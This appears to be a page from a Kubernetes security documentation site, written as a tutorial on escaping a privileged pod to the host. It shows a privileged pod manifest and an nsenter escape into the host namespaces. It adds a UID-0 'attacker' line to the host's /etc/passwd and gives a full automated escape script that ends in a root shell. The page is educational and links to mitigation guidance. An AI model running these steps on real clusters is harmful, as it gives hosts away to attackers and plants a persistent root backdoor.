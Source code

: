 ```yaml
---
sidebar_position: 8
title: "Container Escape"
description: "How an attacker can break out of a container and gain control over the host system in Kubernetes."
---
```


# Container Escape

This guide provides a detailed walkthrough of escaping from a container to gain full control over the host system. The process involves entering the host's namespaces and modifying critical system files.

## **Warning: Security Risk**

**The information and the script included in this article are intended for educational and security research purposes only.** It demonstrates how an attacker can escape a container and gain access to the host system. Running this script on a production system or unauthorized environment can lead to **severe security breaches, data loss, and system compromise.**

**Use this script only in a controlled, isolated testing environment where you have explicit permission.** Misuse of this information may violate company policies or legal regulations.

**You are responsible for how you use this information.** Proceed with caution.

---

## Prerequisites

To successfully escape from a container, the following conditions must be met:

- The container must run as root (`runAsUser: 0`).
- `allowPrivilegeEscalation: true` must be enabled.
- `hostPID: true` must be set to share the host’s process namespace.
- The container must have access to `/proc/1/root`, which exposes the host’s root filesystem.
- The container must have permission to execute `nsenter`.
- The `/proc` filesystem must be accessible from within the container.
- The container must be running in privileged mode (`privileged: true`).

## Step 1: Deploy a Test Pod with Required Privileges

To demonstrate container escape, use the following YAML file to create a privileged pod:

```yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: test
  name: test
spec:
  hostPID: true
  containers:
    - image: busybox
      command: ["sleep", "infinity"]
      securityContext:
        runAsUser: 0
        allowPrivilegeEscalation: true
        privileged: true
      name: test
      resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Apply the pod to the cluster:

```bash
kubectl apply -f test-pod.yaml
```

## Step 2: Identify the Container Environment

Before attempting to escape, check if the container is running with elevated privileges and shares the host’s process namespace.

### Check the Container’s Mount Namespace

Run inside the container:

```bash
ls -l /proc/1/ns/mnt
```

Example output:

```
lrwxrwxrwx 1 root root 0 Mar 17 16:38 /proc/1/ns/mnt -> 'mnt:[4026535581]'
```

This confirms that the container is isolated in a separate mount namespace from the host. We’ll override that using `nsenter`.

---

## Step 3: Escape to the Host’s Namespaces

Use `nsenter` to enter the host’s namespaces. This method is more reliable than attempting bind-mounts.

```bash
nsenter --target 1 --mount --uts --ipc --net --pid /bin/sh
```

Once inside, verify access:

```bash
hostname
whoami
```

If you’re in the host, you will see the host’s actual hostname and be root.

---

## Step 4: Create a Root User on the Host

Now that we’re inside the host context, you can add a root-level user to the host for persistence:

```bash
echo 'attacker:x:0:0::/root:/bin/bash' >> /etc/passwd
```

To verify:

```bash
grep attacker /etc/passwd
```

Expected output:

```
attacker:x:0:0::/root:/bin/bash
```

This creates a user named `attacker` with UID 0 (root privileges).

---

## **Automated Container Escape Script**

The following script automates the process of escaping a container by:

- Entering the host’s namespaces.
- Adding a new root user for persistence.
- Providing an interactive shell on the host.

```bash
#!/bin/sh

echo "[*] Checking if the container has access to the host's root filesystem..."
if [ ! -d "/proc/1/root" ]; then
    echo "[-] Cannot access /proc/1/root. Escape is not possible."
    exit 1
fi

echo "[+] Host root filesystem detected at /proc/1/root."

# Step 1: Ensure full namespace entry using exec nsenter
echo "[*] Attempting to enter the host's namespaces..."

exec nsenter --target 1 --mount --uts --ipc --net --pid --root=/proc/1/root /bin/sh -c '
    echo "[+] Successfully entered host namespaces."

    # Step 2: Modify /etc/passwd on the host to add an attacker user
    echo "[*] Adding attacker user to /etc/passwd..."
    echo "attacker:x:0:0::/root:/bin/bash" >> /etc/passwd

    echo "[+] Attacker user added. Verifying..."
    grep attacker /etc/passwd

    echo "[+] Escape complete. You are now inside the host."

    # Step 3: Verify the escape
    echo "[*] Checking system state..."
    echo "Hostname: $(hostname)"
    echo "User: $(whoami)"
    echo "[*] Checking if host kubelet process is visible..."
    ps aux | grep kubelet

    # Step 4: Open an interactive shell inside the host
    exec /bin/sh
'
```

---

## Conclusion

You successfully escaped the container by:

1. Deploying a privileged pod with `hostPID: true`.
2. Using `nsenter` to join the host’s namespaces.
3. Adding a root user to the host.
4. Gaining an interactive root shell on the host.

To learn how to prevent container escape vulnerabilities, refer to the mitigation guide:

➡ [Preventing Container Escape](/docs/best_practices/cluster_setup_and_hardening/pod_security/container_escape_mitigation)
